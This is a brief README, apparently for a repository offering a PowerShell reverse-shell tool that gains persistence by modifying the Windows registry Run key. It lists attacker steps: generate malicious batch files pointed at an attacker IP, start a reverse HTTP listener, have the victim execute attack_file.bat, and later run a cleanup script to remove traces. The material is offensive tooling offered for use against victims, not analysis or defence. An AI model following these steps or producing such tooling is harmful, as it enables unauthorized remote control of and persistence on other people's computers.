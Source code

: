 # Auto Start Powershell Reverse shell
auto start the shell by modifying the registry run key

## Example Usage
1. attacker end<br>
    generate malicous files and start the listener<br>
    python3 gen_bat.py attackerIP <br>
    sudo python3 reverse_http_server.py<br>
    <br>
2. victim end<br>
    execute attack_file.bat<br>
    <br>
3. remove the malicious script on victim's computer<br>
    execute clear.bat

